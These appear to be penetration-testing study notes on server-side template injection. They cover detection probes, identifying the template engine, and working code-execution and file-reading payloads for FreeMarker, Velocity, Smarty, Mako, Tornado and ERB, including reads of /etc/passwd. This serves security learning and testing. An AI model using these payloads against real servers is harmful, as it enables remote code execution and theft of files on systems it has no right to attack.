

# Server-side Template Injection (SSTI)

## What is SSTI?

Web applications frequently use template systems to embed dynamic content in web pages and emails. 

>For instance, ASP framework (Razor), PHP framework (Twig, Symfony, Smarty, Laravel, Slim, Plates), Python frameworks (django, mako, jinja2), Java frameworks (Groovy, Freemarker, Jinjava, Pebble,  Thymeleaf, Velocity, Spring, patTemplate, Expression Language EL), Javascript frameworks (Handlebars, Codepen, Lessjs, Lodash), Ruby framework (ERB, Slim).

Server-side Template Injection vulnerabilities (SSTI) occur when user input is trusted when embedding a template, which is an unsafe implementation and might lead to remote code execution on the server. 


??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 7. Data Validation Testing > 7.18. Testing for Server-side Template Injection
	    
    |ID|Link to Hackinglife|Link to OWASP|Description|
    |:---|:---|:---|:---|
    |7.18|[WSTG-INPV-18](../OWASP/WSTG-INPV-18.md)|[Testing for Server-side Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)|- Detect template injection vulnerability points. - Identify the templating engine.  - Build the exploit.|

??? quote "Resources for these notes"
	- [Portswigger: Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection#Identify)
	- [Hacktricks: SSTI payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)


??? example "Payloads"
	- [PayloadsAllTheThings for SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
 

Snipped of vulnerable source code:

```
custom_email={{self}}
```


What we have here is essentially server-side code execution inside a sandbox.  Depending on the template engine used, it may be possible execute arbitrary code directly or even to escape the sandbox and execute it. Following the example, in this POST request the expected email value has been replaced by a payload and it gets executed:

## Exploitation

### 1. Detect injection points

Template languages use syntax chosen explicitly not to clash with characters used in normal HTML, so it's easy for a manual blackbox security assessment to miss template injection entirely. To detect it, we need to invoke the template engine by embedding a statement. 

Here’s a simple example of using Twig in a PHP application. This would be the exampletemplate.twig:

```html
<!DOCTYPE html>  
<html>  
<head>  
    <title>{{ title }}</title>  
</head>  
<body>  
    <h1>Hello, {{ name }}!</h1>  
</body>  
</html>
```

And the PHP rendering the Twig template:

```php
<?php  
require_once 'example/page.php';  
  
$loader = new \Twig\Loader\FilesystemLoader(__DIR__);  
$twig = new \Twig\Environment($loader);  
  
$template = $twig->load('exampletemplate.twig');  
echo $template->render(['title' => 'Twig Example', 'name' => 'John']);  
?>
```


Now, coming back to our web app, we could curl the following:

```
$ curl -g 'http://www.target.com/page?name={{7*7}}'
```

With SSTI the response would be:

```
Hello 49!
```

**Trick**:There are a huge number of template languages but many of them share basic syntax characteristics. We can take advantage of this by sending generic, template-agnostic payloads using basic operations to detect multiple template engines with a single HTTP request. This polyglot payload will trigger an error in presence of a SSTI vulnerability:

```
${{<%[%'"}}%\.
```


### 2. Identify the template engine

After detecting template injection, the next step is to identify the template engine in use.

Green and red arrows represent 'success' and 'failure' responses respectively. In some cases, a single payload can have multiple distinct success responses - for example, the probe {{7*'7'}} would result in 49 in Twig, 7777777 in Jinja2, and neither if no template language is in use.




??? example "Payloads for different Template engines"
	- [PayloadsAllTheThings for SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
 

### 3. Exploitation

 Once you discover a server-side template injection vulnerability, and identify the template engine being used, successful exploitation typically involves the following process.

- Read

	- Template syntax
	- Security documentation
	- Documented exploits

- Explore the environment: 

>Many template engines expose a "self" or "environment" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine. If such an object exists, you can potentially use it to generate a list of objects that are in scope. 
>
>It is important to note that websites will contain both built-in objects provided by the template and custom, site-specific objects that have been supplied by the web developer. You should pay particular attention to these non-standard objects


- Create a custom attack


#### 1. Java frameworks

Many template engines expose a "self" or "environment" object. In Java-based templating languages, you can sometimes list all variables in the environment using the following injection:

```
${T(java.lang.System).getenv()}
```

This can form the basis for creating a shortlist of potentially interesting objects and methods to investigate further. Additionally, for Burp Suite Professional users, the Intruder provides a built-in wordlist for brute-forcing variable names.

##### 1.1. FreeMarker

Basic payloads:

```
{{7*7}}
# return {{7*7}}

${7*7}
#return 49

#{7*7}
#return 49 -- (legacy)

${7*'7'}
#return nothing

```

RCE in FreeMarker:

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

##### 1.2. Velocity

RCE in Velocity:

```
$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor()   

[5 second time delay]   
0
```

#### 2. PHP frameworks

##### 2.1. Smarty

RCE in Smarty

```
{php}echo `id`;{/php}
```


#### 3. Python frameworks

##### 3.1. Mako

RCE in Mako

```
<%   import os   x=os.popen('id').read()   %>   ${x}
```

##### 3.2. Tornado

Basic payloads:

```
{{7*7}}
# return 49

${7*7}
# return ${7*7}

{{foobar}}
#return Error

{{7*'7'}}
# return 7777777
```

RCE in Tornado:

```
{{os.system('whoami')}}


{{ os.popen("whoami").read() }}
```


Useful tips to create SSTI exploit for Tornado:

-  Anything coming between **{{** and **}}** are evaluated and send back to the output.

`{{ 2*2 }}` -> 4

-  - Allows you to import python modules.

``


#### 4. Ruby frameworks

##### 4.1. ERB

Basic injection:

```ruby
<%= 7 * 7 %>
```

Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

List files and directories

```ruby
<%= Dir.entries('/') %>


<%= File.open('/example/arbitrary-file').read %>
```

Code execution

```ruby
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```


## Tools

- [Tplmap](https://github.com/epinna/tplmap)
- [Backslash Powered Scanner Burp Suite extension](https://github.com/PortSwigger/backslash-powered-scanner)
- [Template expression test strings/payloads list](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)


## Related lab

[HackTheBox: Nunchunks](../htb-nunchucks.md): Express server with a nunjucks template engine.
